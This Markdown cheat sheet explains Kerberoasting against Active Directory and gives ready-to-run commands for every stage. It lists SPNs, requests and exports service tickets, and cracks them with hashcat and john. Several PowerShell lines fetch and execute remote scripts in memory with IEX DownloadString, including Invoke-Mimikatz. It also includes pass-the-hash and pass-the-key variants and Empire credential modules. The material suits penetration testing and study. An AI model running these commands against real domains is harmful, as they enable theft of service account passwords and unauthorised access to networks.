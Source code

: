 # Active Directory - Kerberoasting

### Overview

A Kerberoasting attack is an attack on the `Kerberos` authentication protocol
that involves compromising the password of a service account, a user account
that has a `ServicePrincipalName (SPN)`, through `service tickets` requests to
the `Ticket-Granting Service (TGS)`.

The attack is based on the fact that a part of the `service tickets` is
encrypted using one of the service account secrets (`RC4`, corresponding to
the `NTLM hash` of the service account password, and `AES 128/256 bits` keys).
The encryption type to be used can be specified client-side in order to force
the use of the `RC4` key. Thus, an offline cracking attack on the service
tickets can be conducted to retrieve the plaintext password of the
corresponding service account.   

As any authenticated user on the domain in posession of a
`Ticket-Granting Ticket (TGT)` can requests service tickets for all available
services, the service accounts password are exposed to offline cracking attack
that are much faster and can not be time restricted.  

The attack chain is as follow:
  - Identify user accounts with a `SPN` (service accounts)
  - Request service tickets for thoses services
  - Extract the TGS for offline cracking

###### Service Principal Names (SPN)

The `SPN` is a unique identifier of a service instance. `SPNs` are used in
`Kerberos` authentication to associate a service instance with a service
logon account. `SPN` are used to map a service running on a server to an
account it’s running as so that it can accept kerberos authentication.

### Automated SPN discover, request and export of TGS

The following tools can be used to automate the SPN discovery and the request
and export of Service Tickets for offline cracking:

```
# (Powershell) Invoke-Kerberoast - Load in memory
IEX (New-Object Net.WebClient).DownloadString(‘https://gist.githubusercontent.com/0xbadjuju/0ebe02983273048c237a8b24633cee3f/raw/c385a21c230ee0e274293aa4e50b5b9ed4197df2/Invoke-Kerberoast.ps1')
Invoke-Kerberoast [[-Identity] <String[]>] [-Domain <String>] [-LDAPFilter <String>] [-SearchBase <String>] [-Server <String>] [-SearchScope <String>] [-ResultPageSize <Int32>] [-ServerTimeLimit <Int32>] [-Tombstone] [-OutputFormat <String>] [-Credential <PSCredential>]
Invoke-Kerberoast
Invoke-Kerberoast -Domain <DOMAIN> -Server <DC>
Invoke-Kerberoast -Format "John" / "Hashcat" # Default to John
Invoke-Kerberoast | Out-File <FILE>

# (Python) Impacket/examples GetUserSPNs.py
GetUserSPNs.py -dc-ip <DCIP> -request <DOMAIN>/<USERNAME>
GetUserSPNs.py -dc-ip <DCIP> -request -outputfile <FILE> <DOMAIN>/<USERNAME>
```

### Manual SPN Discovery

The following tools can be used to retrieve the SPN of the Domain services:

```
# (Python) Impacket/examples GetUserSPNs.py
GetUserSPNs.py [-h] [-request] [-request-user username] [-save] [outputfile OUTPUTFILE] [-debug] [-hashes LMHASH:NTHASH] [-no-pass] [-k] [-aesKey hex key] [-dc-ip ip address] domain/username[:password]
GetUserSPNs.py -dc-ip <DCIP> <DOMAIN>/<USERNAME>
GetUserSPNs.py -dc-ip <DCIP> -hashes <LMHASH:NTHASH> <DOMAIN>/<USERNAME> # PtH

# (Powershell) GetUserSPNs - retrieve only SPN associated to user accounts (CN=Users) - inject and run automatically
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/nidem/kerberoast/master/GetUserSPNs.ps1')

# (Powershell) Get-SPN - allows for regex searching in the account, service or group name (specified by the Type and Search parameters)
# IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/nullbind/Powershellery/master/Stable-ish/Get-SPN/Get-SPN.psm1")
Get-SPN [[-Credential] <PSCredential>] [[-DomainController] <String>] [[-Limit] <Int32>] [[-SearchScope] <String>] [[-SearchDN] <String>] [-Type] <String> [-Search] <String> [[-List] <String>] [<CommonParameters>]
Get-SPN -Type user -Search * -List yes
Get-SPN -Type service -Search "MSSQL*"
Get-SPN -DomainController <DC> -Credential <DOMAIN>\<USERNAME [...]

# Empire
usemodule situational_awareness/network/get_spn
```

Focus on the accounts with the higher probability of using a weak password,
usually user accounts with a password that has not been changed in a long time
/ not changed at all.

### Manual request and export of Service Tickets

The following tools can be used to request and export specific user Service
Tickets:

```
# (Python) Impacket/examples GetUserSPNs.py
GetUserSPNs.py -dc-ip <DCIP> -request-user '<USER>' <DOMAIN>/<USERNAME> # Requests TGS for the SPN associated to the USER specified (just the username, no domain needed)
GetUserSPNs.py -dc-ip <DCIP> -request-user '<USER>' -outputfile <FILE> <DOMAIN>/<USERNAME>

# (Python) skelsec/kerberoast
kerberoast spnroast -r <DOMAIN> -u '<USER>' <DOMAIN>/<USERNAME>:<PASSWORD>@<DCIP> # Requests TGS for the SPN associated to the USER specified (just the username, no domain needed)
kerberoast spnroast -r <DOMAIN> -u '<USER>' -n <DOMAIN>/<USERNAME>:<NTLMHASH>@<DCIP> # PtH
kerberoast spnroast -r <DOMAIN> -u '<USER>' -n <DOMAIN>/<USERNAME>:<AESKEY>@<DCIP> # Pass the Key
kerberoast spnroast -r <DOMAIN> -t <USERFILE>  <DOMAIN>/<USERNAME>:<PASSWORD>@<DCIP> # File with a list of usernames to roast, one user per line
kerberoast spnroast -r <DOMAIN> -u '<USER>' -o <FILE> <DOMAIN>/<USERNAME>:<PASSWORD>@<DCIP>

# (Powershell)
# Request TGS KerberosRequestorSecurityToken, export them using Mimikatz and convert to hash using John's kirbi2john.py
Add-Type -AssemblyName System.IdentityModel  
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "<SPN>" # Requests TGS for the specified SPN
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/nidem/kerberoast/master/GetUserSPNs.ps1") | ForEach-Object {try{New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.ServicePrincipalName}catch{}} # Requests TGS for all SPN associated to Users accounts
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1")
Invoke-Mimikatz -Command 'standard::base64 "kerberos::list /export" exit'

# Empire
usemodule credentials/get_spn_tickets
usemodule credentials/mimikatz/extract_tickets
```

### Crack Service Tickets

Both `John the Ripper` (magnumripper fork) and `hashcat` can be used to crack
the TGS.

The hash needs to respect the following format to be recognized by `John` /
`hashcat`:

```
$krb5tgs$23$*user$realm$test/spn*$63386[...]
```

Depending on the version used, the hash from the `PowerSploit` `Invoke-Kerberos`
cmdlet may need to be manually updated.

The following commands to crack the hash can be used:

```
# Its recommended to use Hashcat on a Windows OS for better performance due to driver compatibility
hashcat64.exe -m 13100 -r rules/best64.rule <HASHFILE> <WORDLIST>

john --wordlist=<WORDLIST> <HASHFILE>
```
